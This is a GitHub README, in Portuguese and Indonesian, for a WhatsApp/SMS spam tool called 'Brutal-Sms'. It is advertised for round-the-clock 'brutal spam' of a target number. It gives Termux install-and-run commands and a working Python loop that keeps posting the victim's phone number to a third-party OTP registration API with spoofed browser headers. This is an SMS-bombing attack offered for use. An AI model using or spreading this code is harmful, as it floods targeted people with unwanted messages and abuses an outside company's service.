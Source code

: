 # SPAM-WHATSAPP-
Essa e uma ferramenta feita por mim Lkz Geralmente usada pra spams no whatsapp 
## Brutal-Sms
Ferramenta Spam tool perfeita Created by lkz
INF3CTUS 🇧🇷 🇵🇹 

<details open>
  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  git clone https://github.com/lkzFDC/SPAM-WHATSAPP-.git
  cd SPAM-WHATSAPP-
pip install -r requirements.txt
  bash install.sh
  python main.py
  ```
  </detales>

<details open>
  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash
  Example:
  abc=input("Nomor Target:")
  while True:
        print (abc)
        # Tambah time.sleep(5) (Jika Ingin Delay)
  ```
  </details>

#### INF3CTUS 📍
|INF3CTUS | Check |
|--------|--------|
| **24H Sem parar* |[✔️](. https://github.com/lkzFDC/SPAM-WHATSAPP-.git ) |
| **Brutal Spam** |[✔️](https://github.com/lkzFDC/SPAM-WHATSAPP-.git) |
| **Simple** |[✔️]https://github.com/lkzFDC/SPAM-WHATSAPP-.git) |
| **No Encrypt** |[✔️](https://github.com/lkzFDC/SPAM-WHATSAPP-.git) |
| 
---------

<details open>
  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash
  nomor=input("Nomor Target:")
  while True:
        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text
        time.sleep(10) # Waktu Delay Bisa Atur Sendiri
  ```
  </details>

> Entre No nosso Discord
> https://discord.gg/HPcuFzxR

